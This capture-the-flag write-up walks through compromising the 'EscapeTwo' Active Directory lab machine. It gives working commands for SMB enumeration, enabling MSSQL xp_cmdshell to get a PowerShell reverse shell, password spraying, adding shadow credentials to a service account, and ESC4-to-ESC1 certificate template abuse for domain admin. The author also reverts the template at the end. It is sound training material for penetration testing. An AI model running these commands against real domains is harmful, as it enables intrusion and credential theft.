





EscapeTwo

EscapeTwo was a fun Active Directory box that began with credentials for user rose. Initial enumeration via netexec revealed multiple domain users and accessible SMB shares, including an "Accounting Department" share containing excel files. By unzipping these files and examining their XML structure, I discovered hardcoded MSSQL SA credentials (sa:MSSQLP@ssw0rd!).
With SA access to the MSSQL service, I enabled xp_cmdshell for command execution and established a reverse shell. Further enumeration of the SQL server configuration files revealed another password, which through password spraying, granted access to user ryan's account and the user flag.
For privilege escalation, I leveraged Ryan's WriteOwner permissions over the CA_SVC account (discovered via BloodHound). After taking ownership and granting myself FullControl, I added shadow credentials to CA_SVC and extracted its NTLM hash. As a member of the Cert Publishers group, CA_SVC could modify certificate templates. I exploited this by converting an ESC4 vulnerability to ESC1 on the DunderMifflinAuthentication template, requested a certificate as the administrator, and used it to authenticate and extract the administrator's hash for full domain compromise.
User flag
Nmap scan reveals many ports which point towards AD presence. There is also a domain, and the name of the DC.
I'll add those to my hostfile.
Enumeration via netexec
Since this is an assumed breach scenario and I already have some credentials to begin with, I'll start with some basic enumeration using netexec.
First, I will enumerate the users in this domain.
netexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su --users
A proper userlist could be useful for password spraying in the future. To create one with netexec, I'll direct the netexec output to a file by appending a > filename at the end.
I'll then use awk to grab the 5th column(where the usernames are) only.
awk '{print$5}' filename
The result was a nice userlist with a few bits of unwanted text.
[*]
[+]
-Username-
Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
[*]
I'll delete the unwanted bits manually.
Password spraying with rose's password returned no hits, so I'll move along with the enumeration. I'll check whether user rose can access any non-standard shares.
There are two custom shares accessible to rose. Accounting Department and Users. I'll use smbclient to connect to them.
smbclient //10.10.11.51/'Accounting Department' -u rose%KxEPkKe6R8su

In the Accounting Department share, there are two excel sheets. I'll grab them onto my machine by using "get".
There wasn't anything interesting in the users share. I'll come back to the excel sheets later after I'm done with the enumeration.
One last thing I would like to do is run bloodhound for some nice visuals and attack planning.
bloodhound-python -c all -u rose -p KxEPkKe6R8su -d sequel.htb -ns 10.10.11.51 --zip

Ryan can remote into the machine. This will most likely be the user who has the user flag in their desktop.

But more importantly, Ryan has WriteOwner over the CA_SVC account. This essentially means FullControl over the account.
Having such control over a CA-related account could allow a few certificate(ESC) attacks, but I'll return to that later.
Investigating the excel sheets
After I ran file against the .xlsx sheets, I took notice of the Zip archive data mention.
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
This means I should be able to unzip it, just like a .zip file.
Sure enough, that's exactly what happened. I see a few .xml files, so I'll check those first.
Eventually, I found something very promising after unzipping the accounts.xlsx file.
sa | MSSQLP@ssw0rd!
Sa(system administrator) is an account that has unrestricted access to MSSQL databases. I'll test these credentials by attempting to connect to mssql on the box via a client.

Command execution via MSSQL
In an ideal scenario, I'd be able to get code execution via the xp_cmdshell procedure.
Even though it is disabled, I'm fairly confident that I can enable it back as sa.
EXEC sp_configure 'xp_cmdshell', 1; - Enables xp_cmdshell
RECONFIGURE; - Applies the changes
I'll run it again after changing the options.
It worked. Now I can execute commands on the DC.
I could start enumerating the filesystem through xp_cmdshell, but I'd like to gain a shell on the box to make that process smoother.
It's easy to do so with xp_cmdshell. I'll use a base64 encoded revshell powershell command.
xp_cmdshell powershell -e <base64>
It connects back to my listener almost instantly.
Enumeration of the MSSQL config file
I navigated to the C:\ folder and found the SQL2019 directory.
After a while of searching, I stumbled upon a .ini file that contained a new password inside.
I'll take it, and I'll do some password spraying with the userlist created earlier.
Ryan and sql_svc have the same password. Remembering what I've learned from bloodhound, Ryan is the account that should give me the user flag.
I'll try remoting into the machine right now.

Root flag
Since user ryan has been taken over, I can move to attacking the CA_SVC account.
Taking over the CA_SVC account
First things first, I'll have to set the owner of CA_SVC to ryan. I'll use bloodyAD for that.
bloodyAD -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --host DC01.sequel.htb --dc-ip 10.10.11.51 set owner CA_SVC ryan
After that, I can give ryan FullControl over the svc account using impacket-dacledit.
impacket-dacledit -dc-ip 10.10.11.51 -principal ryan -target CA_SVC -action write -rights FullControl sequel.htb/ryan:WqSZAF6CysDQbGb3

With FullControl, I'll be able to add shadow credentials to the svc account. I'll do so by using bloodyad again.
bloodyAD -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --host DC01.sequel.htb --dc-ip 10.10.11.51 add shadowCredentials CA_SVC
Following that, I'm going to use a few scripts from PKINITtools to ultimately gain the NThash of CA_SVC.

I got a TGT, but it doesn't interest me too much in this case. I'll take the AS-REP encryption key though as it'll be very useful soon.
After setting the KRB5CCNAME variable to my .ccache file, I ran the getnthash.py script.
And got the hash.
Modifying the cert template(ESC4 to ESC1)
I'll use certipy to find active and vulnerable cert templates in the domain.
certipy-ad find -enabled -vulnerable -dc-ip 10.10.11.51 -target-ip 10.10.11.51 -u CA_SVC -hashes '3b181b914e7a9d5508ea1e20bc2b7fce'
This DunderMifflinAuthentication template can be modified by cert publishers, which CA_SVC is a member of.
I will use certipy again to modify that template and make it vulnerable to ESC1.
Certipy by default modifies the template for exploitation via ESC1. I'll save the old config so that I can restore it after I'm done.
certipy-ad template -username CA_SVC@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -template DunderMifflinAuthentication -save-old
Next, I'll request a certificate with an UPN specified as administrator.
certipy-ad req -ca sequel-DC01-CA -template DUnderMifflinAuthentication -upn administrator -dc-ip 10.10.11.51 -target-ip 10.10.11.51 -u CA_SVC@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce'
I added a DNS flag in order to solve the error, but it still appeared.
What worked in the end was modifying the template once again with the same command as before.
certipy-ad req -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.51 -target-ip 10.10.11.51 -u CA_SVC@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ns 10.10.11.51 -dns 10.10.11.51 -debug
And lastly, I'll authenticate with the certificate to recover the administrator's hash.
Now nothing is stopping me from connecting to the machine as the administrator, but first, I'll revert the template back to its original state.
Even though this is a controlled box, it's good to make a habit of fixing up any dangerous changes that may have been left behind. Leaving this template in its vulnerable state would be extremely dangerous.
certipy-ad template -configuration DunderMifflinAuthentication.json -username CA_SVC@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -template DunderMifflinAuthentication
It got reverted back to its original state, pressumably by a regularly-running script. Still good to check though.
Now I'll just remote into the machine as administrator, just like I did with ryan earlier.
Rooted!